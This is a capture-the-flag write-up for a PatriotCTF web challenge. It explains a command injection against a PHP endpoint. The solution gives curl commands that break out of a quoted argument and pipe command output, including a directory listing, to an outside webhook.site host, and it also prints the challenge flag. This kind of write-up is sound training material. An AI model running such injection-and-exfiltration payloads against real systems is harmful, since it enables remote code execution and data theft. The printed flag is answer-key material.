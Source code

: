 # Spongebob

## The Problem

Points: 500

Rating: Easy

Author:

Flavor Text:
```
Spongebob 😍

Flag format note: case insensitive

Challenge Author: NihilistPenguin (Daniel Getter)

http://chal1.pctf.competitivecyber.club:10009/

```

Attachments : [main.php](main.php)


## Solution


posts to http://chal1.pctf.competitivecyber.club:10009/main.php are messed with char by char. 

we can escape the php command creater to run both the python script with input and our command that follows. 

can pull the sources

![source.png](source.png)

we are able to force remote code exec and hit our server. just need to pipe the local comand content into the post request

curl 'http://chal1.pctf.competitivecyber.club:10009/main.php'   --data-raw 'text=hi" | curl -X POST --data-binary @- https://webhook.site/1e8eb917-1634-44d2-91ea-b39aa998e162 \'http://chal1.pctf.competitivecyber.club:10009/main.php

![webhook.png](webhook.png)


curl 'http://chal1.pctf.competitivecyber.club:10009/main.php'   --data-raw 'text=hi" | ls | curl -X POST --data-binary @- https://webhook.site/1e8eb917-1634-44d2-91ea-b39aa998e162 \'  http://chal1.pctf.competitivecyber.club:10009/main.php


curl -X POST -H “Content-Type: text/plain" -d "test" https://webhook.site/1e8eb917-1634-44d2-91ea-b39aa998e162


![](flag.png)

## Flag
```
PctF{SPoNGebpb_LookiNG_ThIcC}

```

## Final Notes
